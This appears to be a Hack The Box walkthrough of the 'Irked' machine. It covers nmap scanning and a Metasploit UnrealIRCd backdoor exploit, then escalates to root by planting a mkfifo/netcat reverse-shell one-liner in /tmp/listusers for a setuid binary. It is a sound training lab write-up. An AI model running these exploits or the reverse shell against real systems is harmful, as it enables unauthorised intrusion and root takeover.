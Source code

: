 ```yaml
---
layout: single
classes: wide
title:  "Walkthrough - Irked"
date: 2019-03-24
categories:
    - "hackthebox"
    - walkthrough
tags:
    - machines
    - easy
    - linux
---
```


This was a decent box. An IRC exploit gets you a shell with the IRC user but not the local user. There are two methods to get a privilege escalation. One is a bit CTFy which I have not included in this walkthrough and the other is using a setuid binary that gets us a root shell. Overall this was a good box.

![banner]({{ site.url }}{{ site.baseurl }}/assets/images/HTB_images/machines/irked/banner.JPG)

Before following this walkthrough, I highly recommend trying to get the flag yourself! Just like you will hear from everyone else, try harder! (if you cannot find it)

First up, we'll scan the box using basic nmap scripts and then go from there (Enumerate!).

```bash
kali@noone:~/Irked$ nmap -v -p- -sC -sV -oA nmap 10.10.10.117
# Nmap 7.70 scan initiated Sun Feb 10 20:26:11 2019 as: nmap -v -p- -sC -sV -oA nmap 10.10.10.117
Nmap scan report for 10.10.10.117
Host is up (0.25s latency).
Not shown: 65528 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey:
|   1024 6a:5d:f5:bd:cf:83:78:b6:75:31:9b:dc:79:c5:fd:ad (DSA)
|   2048 75:2e:66:bf:b9:3c:cc:f7:7e:84:8a:8b:f0:81:02:33 (RSA)
|   256 c8:a3:a2:5e:34:9a:c4:9b:90:53:f7:50:bf:ea:25:3b (ECDSA)
|_  256 8d:1b:43:c7:d0:1a:4c:05:cf:82:ed:c1:01:63:a2:0c (ED25519)
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Site doesnt have a title (text/html).
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo:
|   program version   port/proto  service
|   100000  2,3,4        111/tcp  rpcbind
|   100000  2,3,4        111/udp  rpcbind
|   100024  1          53857/udp  status
|_  100024  1          59504/tcp  status
6697/tcp  open  irc     UnrealIRCd
8067/tcp  open  irc     UnrealIRCd
59504/tcp open  status  1 (RPC #100024)
65534/tcp open  irc     UnrealIRCd
Service Info: Host: irked.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Feb 10 20:44:03 2019 -- 1 IP address (1 host up) scanned in 1072.35 seconds
```

We have a few ports open. A few weird ports with IRC service running on them. But lets start with the most common way, port 80.

![port80]({{ site.url }}{{ site.baseurl }}/assets/images/HTB_images/machines/irked/port-80.JPG)

Just a smiley. I am going to pivot and do something else. A `searchsploit` on `UnrealIRCd` got me this.

```bash
kali@noone:~/Irked$ searchsploit UnrealIRCd
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                                                                                                                                               |  Path
                                                                                                                                                                                             | (/usr/share/exploitdb/)
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
UnrealIRCd 3.2.8.1 - Backdoor Command Execution (Metasploit)                                                                                                                                 | exploits/linux/remote/16922.rb
UnrealIRCd 3.2.8.1 - Local Configuration Stack Overflow                                                                                                                                      | exploits/windows/dos/18011.txt
UnrealIRCd 3.2.8.1 - Remote Downloader/Execute                                                                                                                                               | exploits/linux/remote/13853.pl
UnrealIRCd 3.x - Remote Denial of Service                                                                                                                                                    | exploits/windows/dos/27407.pl
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
```

There's a metasploit module. Let's try it out.

```bash
root@noone:/home/pswapnil/Retired/Irked# msfconsole
msf5 > search unreal                                                                                                                                                                                                         

Matching Modules                                                                                                                                                                                                             
================                                                                                                                                                                                                            

   #  Name                                        Disclosure Date  Rank       Check  Description
   -  ----                                        ---------------  ----       -----  -----------
   1  exploit/linux/games/ut2004_secure           2004-06-18       good       Yes    Unreal Tournament 2004 "secure" Overflow (Linux)
   2  exploit/unix/irc/unreal_ircd_3281_backdoor  2010-06-12       excellent  No     UnrealIRCD 3.2.8.1 Backdoor Command Execution                                                                                                    
   3  exploit/windows/games/ut2004_secure         2004-06-18       good       Yes    Unreal Tournament 2004 "secure" Overflow (Win32)                                                               


msf5 > use exploit/unix/irc/unreal_ircd_3281_backdoor                                                                                                                                                                        
msf5 exploit(unix/irc/unreal_ircd_3281_backdoor) > show options                                                                                                                                                              

Module options (exploit/unix/irc/unreal_ircd_3281_backdoor):                                                                                                                                                                

   Name    Current Setting  Required  Description                                             
   ----    ---------------  --------  -----------                
   RHOSTS                   yes       The target address range or CIDR identifier
   RPORT   6667             yes       The target port (TCP)


Exploit target:                                          

   Id  Name                                                                     
   --  ----                                                                     
   0   Automatic Target                                                         


msf5 exploit(unix/irc/unreal_ircd_3281_backdoor) > set RHOSTS 10.10.10.117      
RHOSTS => 10.10.10.117
msf5 exploit(unix/irc/unreal_ircd_3281_backdoor) > set RPORT 6697
RPORT => 6697                                                                    
msf5 exploit(unix/irc/unreal_ircd_3281_backdoor) > exploit

[*] Started reverse TCP double handler on 10.10.16.102:4444
[*] 10.10.10.117:6697 - Connected to 10.10.10.117:6697...
    :irked.htb NOTICE AUTH :*** Looking up your hostname...                    
[*] 10.10.10.117:6697 - Sending backdoor command...                             
[*] Accepted the first client connection...                                     
[*] Accepted the second client connection...                                    
[*] Command: echo NYsVwSUaezV0FKxG;                                             
[*] Writing to socket A                                                         
[*] Writing to socket B                                                         
[*] Reading from sockets...                                                     
[*] Reading from socket A                                                       
[*] A: "NYsVwSUaezV0FKxG\r\n"                                                   
[*] Matching...                                                                 
[*] B is input...                                                                                
[*] Command shell session 1 opened (10.10.16.102:4444 -> 10.10.10.117:32986) at 2019-04-29 12:07:43 -0400

id
uid=1001(ircd) gid=1001(ircd) groups=1001(ircd)
pwd
/home/ircd/Unreal3.2
```

I will upgrade to a full TTY. To know how I did that, follow [this](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/).

```bash
ircd@irked:~$ cd /home
ircd@irked:/home$ ls -la
total 16
drwxr-xr-x  4 root     root     4096 May 14  2018 .
drwxr-xr-x 21 root     root     4096 May 15  2018 ..
drwxr-xr-x 18 djmardov djmardov 4096 Apr 30 08:28 djmardov
drwxr-xr-x  3 ircd     root     4096 May 15  2018 ircd
ircd@irked:/home$ find / -perm -u=s -type f 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/spice-gtk/spice-client-glib-usb-acl-helper
/usr/sbin/exim4
/usr/sbin/pppd
/usr/bin/chsh
/usr/bin/procmail
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/at
/usr/bin/pkexec
/usr/bin/X
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/viewuser
/sbin/mount.nfs
/bin/su
/bin/mount
/bin/fusermount
/bin/ntfs-3g
/bin/umount
ircd@irked:/home$ viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2019-04-03 06:34 (:0)
djmardov pts/2        2019-04-04 09:01 (10.10.14.14)
sh: 1: /tmp/listusers: not found
```
The `viewuser` binary is searching for a file `/tmp/listusers`. Let's see if we can write to this file. I will try to upload a shell command in the file and start a listener on my local machine.

```bash
ircd@irked:/home$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.102 6666 >/tmp/f" > /tmp/listusers                                                              
<;cat /tmp/f|/bin/sh -i 2>&1|nc <my-ip> 6666 >/tmp/f" > /tmp/listusers
```

Now let's try to execute the binary again and see if we pop a shell.

```bash
ircd@irked:/home$ viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2019-05-11 07:04 (:0)
```

What do you know! We popped a shell on the listener we started and it's a root shell!

```bash
kali@noone:~/Irked$ nc -lnvp 6666
listening on [any] 6666 ...
connect to [10.10.16.102] from (UNKNOWN) [10.10.10.117] 54261
# id     
uid=0(root) gid=1001(ircd) groups=1001(ircd)
# cat /root/root.txt
8******************************3
# locate user.txt
/home/djmardov/Documents/user.txt
/usr/share/doc/fontconfig/fontconfig-user.txt.gz
# cat /home/djmardov/Documents/user.txt
4******************************e
```

This is definetely the first time I am showing the root.txt file before the user.txt file. I guess that's what happens when you try to do your recon thoroughly before trying to score points on HTB.
Great box nonetheless!
